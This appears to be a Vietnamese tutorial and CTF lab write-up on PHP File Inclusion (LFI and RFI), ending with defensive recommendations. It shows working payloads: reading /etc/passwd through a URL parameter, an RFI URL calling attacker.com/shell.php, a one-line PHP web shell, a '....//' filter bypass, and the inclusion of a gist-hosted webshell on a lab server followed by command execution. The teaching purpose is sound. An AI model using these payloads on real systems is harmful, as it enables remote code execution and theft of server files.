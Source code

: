 # File Inclusion
>Tên tài liệu: File Inclusion<br>
Thực hiện: Phạm Văn Tam <br>
Cập nhật lần cuối: 13/10/2024
>
# Mục Lục
[1. Khái niệm và các loại ](#p1) <br>
[2. Local File Inclusion (LFI)](#p2) <br>
[3. Remote File Inclusion (RFI)](#p3) <br>
[4. Lab ](#p4) <br>
# Nội dung
<a id="p1"></a>
## 1. Khái niệm và các loại
Inclusion là tính năng của ngôn ngữ lập trình giúp lập trình viên dễ dàng quản lý, tổ chức và tái sử dụng mã nguồn. <br>
File Inclusion là một lỗ hổng bảo mật trong ứng dụng web, xảy ra khi ứng dụng cho phép người dùng chỉ định tập tin (file) sẽ được nhúng vào hoặc thực thi bởi máy chủ. <br>
Có hai loại phổ biến: <br>
- Local File Inclusion (LFI)
- Remote File Inclusion (RFI) <br>
Các hàm inclusion nhận tham số truyền vào là một đường dẫn tới File hoặc một URL tùy theo ngôn ngữ lập trình <br>
File Inclusion là biến thể của Path Traversal
<a id="p2"></a>
## 2. Local File Inclusion (LFI)
Local File Inclusion (LFI) là lỗ hổng cho phép kẻ tấn công đưa nội dung của một tập tin có sẵn trên máy chủ vào ứng dụng. Khi ứng dụng không kiểm tra kỹ đầu vào, hacker có thể lợi dụng để đọc các tập tin nhạy cảm như /etc/passwd trên hệ thống Linux, hoặc các file cấu hình chứa thông tin quan trọng. <br>
Kịch bản phổ biến là ứng dụng dùng hàm include, require, include_once hoặc require_once trong PHP để nhúng file theo đường dẫn mà người dùng cung cấp. Nếu không xử lý đầu vào cẩn thận, hacker có thể thay đổi đường dẫn này để truy cập tập tin nhạy cảm. <br>
Ví dụ: <br>
URL sau: <br>
```
http://testphp.com/index.php?page=about.php
```
Nếu không kiểm tra kỹ đầu vào page, hacker có thể chỉnh sửa URL để: <br>
```
http://testphp.com/index.php?page=/etc/passwd
```
<a id="p3"></a>
## 3. Remote File Inclusion (RFI)
Remote File Inclusion (RFI) là lỗ hổng cho phép hacker nhúng và thực thi một tập tin từ một máy chủ khác. Điều này có thể dẫn đến việc thực thi mã độc hại trên máy chủ đích. RFI nguy hiểm hơn LFI vì nó cho phép hacker đưa mã độc vào từ xa và có thể chiếm quyền điều khiển máy chủ. <br>
Lỗ hổng này thường xảy ra khi ứng dụng web chấp nhận URL từ xa làm tham số và sử dụng hàm `include` hoặc `require` mà không kiểm tra kỹ đầu vào. <br>
Ví dụ : <br>
URL sau : <br>
```
http://testphp.com/index.php?page=http://attacker.com/shell.php
```
Tệp shell.php có nội dung : `<?php system($_GET['cmd']); ?>` <br>
Từ đó tệp shell.php sẽ được tải về và thực thi trên server. <br>
Lưu ý: RFI sẽ không hoạt động nếu có prefix đứng trước tham số URL
```
<?php
$page = $_GET["page"];
include("module/".$page);
echo $content;
?>
```
Thì module/http://attacker.com/shell.php sẽ không hoạt động <br>
<a id="p4"></a>
## 4. Lab
### 4.1 Learn the Capital 1
Mục tiêu của lab này là truy cập vào trang /admin mà chúng ta không có quyền. <br>
![image](https://github.com/user-attachments/assets/386338c3-6dcb-45f1-b624-df9b050e5c0a) <br>
Trang web hỏi về thủ đô của các nước và đưa ra câu trả lời: <br>
Tiên hành check source code <br>
![image](https://github.com/user-attachments/assets/2cf35f45-ef26-4741-aa64-00e4d5db678a) <br>
Giá trị của biến $page được lấy trực tiếp từ tham số `$_GET['country']` mà không có bất kỳ biện pháp lọc nào. Nếu một kẻ tấn công có thể cung cấp một đường dẫn đến tệp tin mà họ kiểm soát, họ có thể bao gồm và thực thi mã trong tệp tin đó, dẫn đến việc tấn công Local File Inclusion (LFI) hoặc Remote File Inclusion (RFI). <br>
Test thử với `/etc/passwd` : <br>
![image](https://github.com/user-attachments/assets/b4bdfb8f-3730-4fac-bab0-f1a82760668e)
Tiến hành truy cập vào trang admin <br>
![image](https://github.com/user-attachments/assets/f07f5da2-a4a1-46dc-a977-eb08d8b98654)
### 4.2 Learn the Capital 2
Ở lab này anh dev đã code thêm các tính năng bảo mật. Mục tiêu là truy cập trang admin <br>
Tiến hành check source code để xem : <br>
![image](https://github.com/user-attachments/assets/578f5fe9-9ecf-4206-a254-ba23fb053489) <br>
- Loại bỏ http:// và https:// khỏi $page: Điều này nhằm ngăn chặn tấn công kiểu Remote File Inclusion (RFI), bằng cách loại bỏ các URL bên ngoài.
- Loại bỏ các ký tự ../ và .." khỏi $page: Điều này nhằm hạn chế tấn công kiểu Local File Inclusion (LFI) bằng cách ngăn kẻ tấn công sử dụng các đường dẫn tương đối để thoát khỏi thư mục hiện tại.<br>
Liệu như này đã đủ an toàn chưa? Câu trả lời là không hihi <br>
Chúng ta có thể bypass như sau:  <br>
```
....//admin.php
```
![image](https://github.com/user-attachments/assets/66f4c4f9-17d6-46d9-99a8-15791cba6a45)
### 4.3 Learn the Capital 3
Lab này nói rằng họ đã tăng cường thêm các biện pháp bảo mật và bây giờ không dễ truy cập trang admin được nũa <br>
![image](https://github.com/user-attachments/assets/8d775505-f5bb-4e06-8b0a-11e0944f109e)
Lab này dùng hàm `strstrs` để kiểm tra biến $page xem biến $page có chứa chuỗi file hay không. Nếu tìm thấy chuỗi file thì nó sẽ báo lỗi và dừng chương trình. <br>
![image](https://github.com/user-attachments/assets/ad385835-58c4-41eb-adb9-8527eb8824da)
Liệu còn cách nào để bypass ở đây.  <br>
![image](https://github.com/user-attachments/assets/5031c845-511c-4ca6-b887-3a213b27c5f5)
### 4.4 Remote File Inclusion
phpinfo() Outputs information about PHP's configuration. Let's find phpinfo file, then create a Webshell for reading the flag file on the system. <br>
![image](https://github.com/user-attachments/assets/442e472e-73e0-47a9-8704-f311fd6329eb) <br>
Là trang web wiki CTF bắt request thì thấy rằng xuất hiện `http://103.97.125.56:30773/?file=1` thì có thể nó bị path traversal và dẫn đến file inclusion. <br>
Tên đề bài là RFI nên chúng ta sễ truyền vào 1 đoạn shell mà nó thực thi ở server khác: <br>
```
https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/c871f130a12e97090a08d0ab855c1b7a93ef1150/easy-simple-php-webshell.php
```
Truyền thành công : <br>
![image](https://github.com/user-attachments/assets/7062a004-b1ba-4fc9-ab16-61b92349ef9b)
Tiến hành leak file trên server và lấy flag : <br>
`&cmd=ls`
![image](https://github.com/user-attachments/assets/95de95cc-4dca-4066-b0a4-1aff8c1f3f24)
![image](https://github.com/user-attachments/assets/c88094cc-3751-4d22-8878-78b9be649e8f)
![image](https://github.com/user-attachments/assets/0e63baa5-a5c7-46ee-b8e5-fc55031f7e4f)
<a id="p5"></a>
## 5.Recommendations
- Sử dụng các hàm lọc và kiểm tra đầu vào nghiêm ngặt.
- Hạn chế việc bao gồm các file từ đường dẫn ngoài (tắt allow_url_include trong PHP).
- Áp dụng whitelist để chỉ cho phép truy cập các file hợp lệ đã định trước.
